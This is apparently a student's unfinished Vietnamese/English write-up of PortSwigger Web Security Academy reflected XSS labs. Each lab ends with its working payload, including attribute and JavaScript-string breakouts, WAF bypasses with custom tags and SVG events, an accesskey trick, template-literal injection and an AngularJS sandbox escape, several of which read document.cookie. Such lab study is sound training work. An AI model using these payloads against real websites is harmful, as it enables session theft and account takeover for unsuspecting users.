

# XSS

## Cross-Site Scripting Reflected

Cross-Site Scripting Phản Chiếu (XSS) xảy ra khi một ứng dụng nhận dữ liệu từ một yêu cầu HTTP và bao gồm dữ liệu đó trong phản hồi mà không thực hiện việc làm sạch hoặc mã hóa đúng cách, dẫn đến các lỗ hổng bảo mật.

TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu
TODO: hoàn thành 3 format ba bài lab đâu

### Lab: Reflected XSS into HTML context with nothing encoded

Thử nhập vào ô tìm kiếm. Bản chất của lỗ hổng XSS là phải có input từ người dùng vì vậy ta kiểm tra những đầu vào có thể nhập hoặc đưa thông tin vào.


`Ctrl + U` để xem mã HTML


Input từ người dùng được đưa vào trong thẻ `h1`. Ta có thể truyền vào `script` để kiểm tra lỗ hổng XSS.
**payload** `<script>alert()</script>`

✅ SOLVED!

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

Cũng như bài trên, thử với payload `<script>alert()</script>` rồi xem mã nguồn.

Ở đây ta thấy dấu `<`, `>` bị encode thành `&lt`, `&gt`.

```
<input ... value="&lt;script&gt;alert()&lt;/script&gt;">
```

Ta có thể thực hiện chèn `"` cùng với **payload**: `a"onmouseover="alert()`

```
<input ... value="a"onmouseover="alert()">
```


✅ SOLVED!

**⚠️Note**:

> Có thể sử dụng các event khác ngoài `onmouseover` như `onclick`, `onmousedown`, ...

### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

Thử với payload `<script>alert()</script>` rồi xem mã nguồn.


Ta thấy dấu `<`, `>` vẫn bị encode. Ngoài ra chuỗi payload đó còn được chèn vào trong thẻ `script`. Suy ra không dùng được `>`,`<`. Vậy thì ta sẽ đưa câu lệnh javascript vào trong đó luôn.
**payload**: `';alert();//`. `'` để đóng chuỗi, `//` để comment phần đằng sau tránh làm hỏng syntax.

✅ SOLVED!

### Lab: Reflected DOM XSS

Kiểm tra file `searchResult.js`.

-> Tận dụng chèn vào tham số `this.responseText`: `abc/"};alert(1);//`

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.
To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Payload:`<iframe src="https://0a7c0036041b29ba80eb0367007a0096.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='227px'>`

### Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie.`

Bài này sử dụng custom tag để bypass WAF
`<script>location='https://0ac4004f030ada0181a7e4dd003e0024.web-security-academy.net/?search=%3Cabc+id%3Dx+tabindex%3D1+onfocus%3Dalert(document.cookie)%3E%3C%2Fabc%3E#x'</script>`

### Lab: Reflected XSS with some SVG markup allowed

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.
To solve the lab, perform a cross-site scripting attack that calls the alert() function.

Payload:`<svg><animatetransform onbegin=alert(document.cookie) /></svg>`

### Lab: Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.
To assist with your exploit, you can assume that the simulated user will press the following key combinations:

```
ALT+SHIFT+X
CTRL+ALT+X
Alt+X
```

Please note that the intended solution to this lab is only possible in Chrome.

Bài này ta sẽ chèn XSS vào trong thẻ `<link>` sử dụng các event như onclick hay gì đó đi kèm với `accesskey` để gọi sự kiện đó.
Payload ở đây sử dụng:`ttps://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`
=> `On Windows: ALT+SHIFT+X` dùng để trigger XSS.

### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.
To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

Payload: `a</script><script>alert(1)</script>`

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

Payload: `\\';alert(1);//`

### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.

Payload: `${alert()}`

### Lab: Reflected XSS with AngularJS sandbox escape without strings
//TODO Hỏi a Đạt
```js
<script>
    angular.module('labApp', [])
        .controller('vulnCtrl', function($scope, $parse) {
            $scope.query = {};
            var key = 'search';
            $scope.query[key] = '&lt;script&gt;alert()&lt;/script&gt;';
            $scope.value = $parse(key)($scope.query);
        });
</script>

```

`1&toString()`
`1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1`